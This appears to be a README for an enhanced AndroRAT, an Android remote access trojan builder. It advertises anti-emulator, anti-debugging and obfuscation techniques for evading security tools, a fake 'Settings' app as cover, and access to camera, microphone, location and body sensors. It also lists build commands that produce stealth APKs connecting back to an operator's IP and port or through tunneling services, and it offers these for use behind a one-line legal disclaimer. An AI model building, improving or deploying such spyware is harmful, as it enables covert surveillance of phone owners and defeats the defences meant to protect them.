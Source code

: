 # AndroRAT Enhanced - Detection Evasion & Android 14+ Compatibility

This enhanced version of AndroRAT includes advanced detection evasion techniques and full compatibility with the latest Android versions.

## 🚀 New Features

### Android 15+ Compatibility
- **Updated SDK**: Now targeting Android 15 (API 35) with backward compatibility to Android 6 (API 23)
- **Modern Permissions**: Full support for Android 13-16 permission model including scoped storage and media permissions
- **Android 15+ Features**: Body sensors background access and media projection state permissions
- **Enhanced Foreground Services**: Proper service types and notification handling for Android 12+
- **Runtime Permissions**: Automatic permission request handling for modern Android versions including Android 15/16

### 🛡️ Detection Evasion Techniques

#### Anti-Analysis Features
- **Anti-Emulator Detection**: Automatically detects and handles emulator environments
- **Behavioral Analysis Evasion**: Includes timing attacks and pattern disruption
- **Anti-Debugging**: Basic debugger detection and countermeasures
- **String Obfuscation**: Automatic obfuscation of suspicious strings in compiled APK

#### Stealth Features
- **Legitimate Cover Activity**: Includes a realistic "Settings" app interface
- **Random Delays**: Jitter and delays to avoid behavioral fingerprinting
- **Network Security Config**: Enhanced SSL/TLS handling for better stealth
- **File Timestamp Randomization**: Avoid signature-based detection

## 📱 Usage

### Basic APK Generation
```bash
# Standard APK build
python3 androRAT.py --build -i 192.168.1.100 -p 8080 -o my_app.apk

# With tunneling
python3 androRAT.py --build --tunnel -p 8080 -o tunnel_app.apk
```

### Enhanced Stealth Mode
```bash
# Maximum stealth with all evasion techniques
python3 androRAT.py --build --stealth -i 127.0.0.1 -p 8080 -o stealth_app.apk

# With random package name
python3 androRAT.py --build --stealth --random-package -i 127.0.0.1 -p 8080 -o secure_app.apk
```

### New CLI Options
- `--stealth`: Enable maximum stealth mode with all detection evasion techniques
- `--random-package`: Use randomly generated package names for better evasion
- `--tunnel-service`: Choose specific tunneling service (cloudflared, serveo, localtunnel, ngrok, auto)

## 🔧 Technical Improvements

### Android Manifest Enhancements
- Android 13+ media permissions (`POST_NOTIFICATIONS`, `READ_MEDIA_*`)
- Android 14+ visual media permissions (`READ_MEDIA_VISUAL_USER_SELECTED`)
- Android 15+ permissions (`BODY_SENSORS_BACKGROUND`, `ACCESS_MEDIA_PROJECTION_STATE`)
- Enhanced foreground service types (`dataSync`, `camera`, `microphone`, `location`, `health`)
- Proper component export declarations
- Network security configuration for cleartext traffic

### Java Code Improvements
- **MainActivity**: Enhanced with runtime permission handling and anti-analysis
- **mainService**: Improved stealth with legitimate-looking foreground notifications
- **SettingsActivity**: New cover activity that appears as a legitimate settings app

### Build Process Enhancements
- String obfuscation in smali files
- Random timestamp application
- Enhanced error handling
- Improved stealth messaging

## 📊 Compatibility Matrix

| Android Version | API Level | Support Status |
|----------------|-----------|----------------|
| Android 6.0+   | 23+       | ✅ Full Support |
| Android 12+    | 31+       | ✅ Enhanced Features |
| Android 13+    | 33+       | ✅ Modern Permissions |
| Android 14+    | 34+       | ✅ Visual Media Features |
| Android 15+    | 35+       | ✅ Latest Features |
| Android 16     | 36        | ✅ Future Ready |

## 🧪 Testing

Run the comprehensive test suite:
```bash
# Basic tests
python3 test_androrat.py

# Comprehensive tests
python3 comprehensive_test.py
```

Test APK building with stealth:
```bash
python3 androRAT.py --build --stealth -i 127.0.0.1 -p 8080 -o test.apk
```

## ⚠️ Important Notes

### Legal Disclaimer
This tool is for educational and authorized security testing purposes only. Users are responsible for compliance with all applicable laws and regulations.

### Detection Evasion Effectiveness
- Detection evasion techniques are designed to avoid basic automated analysis
- Effectiveness may vary depending on specific security solutions
- Regular updates may be needed to maintain evasion capabilities
- No evasion technique is 100% guaranteed

### Best Practices
1. Always test APKs in isolated environments first
2. Use tunneling services for remote connections
3. Keep the tool updated for latest Android compatibility
4. Use stealth mode for maximum evasion effectiveness

## 🔄 Changelog

### v2.1 - Android 15/16 Support
- Added Android 15 (API 35) and Android 16 (API 36) compatibility
- Updated SDK to API 35 for latest Android features
- Added Android 15+ specific permissions (BODY_SENSORS_BACKGROUND, ACCESS_MEDIA_PROJECTION_STATE)
- Enhanced foreground service types for health data

### v2.0 - Enhanced Detection Evasion
- Added Android 14+ compatibility
- Implemented comprehensive detection evasion techniques
- Enhanced stealth APK building process
- Added anti-analysis and anti-emulator features
- Improved permission handling for modern Android

### Previous Versions
- Fixed ngrok credit card requirement with alternative tunneling
- Resolved SSL certificate verification issues
- Fixed Python version compatibility
- Enhanced Unicode/ASCII encoding support